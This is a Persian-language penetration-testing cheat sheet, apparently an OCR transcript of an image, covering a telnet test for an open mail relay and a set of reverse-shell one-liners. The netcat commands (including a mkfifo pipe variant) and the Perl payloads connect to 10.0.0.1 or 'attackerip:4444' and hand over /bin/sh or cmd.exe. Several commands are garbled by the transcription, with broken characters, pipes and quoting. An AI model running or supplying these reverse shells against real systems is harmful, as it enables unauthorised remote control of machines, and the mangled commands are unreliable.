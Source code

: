 ### باز نمودن mail relay

```text
C:\ telnet x.x.x.x 25
HELO x.x.x.x
MAIL FROM: me@you.com
RCPT TO: YOU@YOU.com
DATA
Thank You.
quit
```

## شل معکوس

### دستور Netcat \(\* اجرا در سیستم مهاجم\)

```text
nc 10.0.0.1 1234 -e /bin/sh    Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe    Windows reverse shell
```

### دستور Netcat \(ممکن است در بعضی از نسخه ها -e پشتیبانی نشود\)

```text
nc -e /bin/sh 10.0.0.1 1234
```

### دستور Netcat  برای موقع هایی که -e پشتیبانی نمی شود

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &line l0.0.0.1 1234 /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.105 9999 >/tmp/f
```

### زبان Perl

```text
perl -e 'use Socket; $i="10.0.0.l"; $p=1234; socket(S,PF INET, SOCK STREAM,
getprotobjname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN," &S") ;open(STDOUT," &S"); open(STDERR," &S"); exec("/bin/sh" -i");};'
```

### زبان Perl بدون نیاز به /bin/sh

```text
perl -MIO -e '$p=fork;exit,if($p);$c=new
IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN- fdopen($c,r);$~-fdopen($
c,w) ;system$_ while ;'
```

### زبان Perl برای windows

```text
perl -MIO -e '$c=new IO: :Socket: :INET(PeerAddr,''attackerip:4444'') ;STDIN-fdopen($
c,r) ;$~- fdopen($c,w) ;system$_ while ;'
```
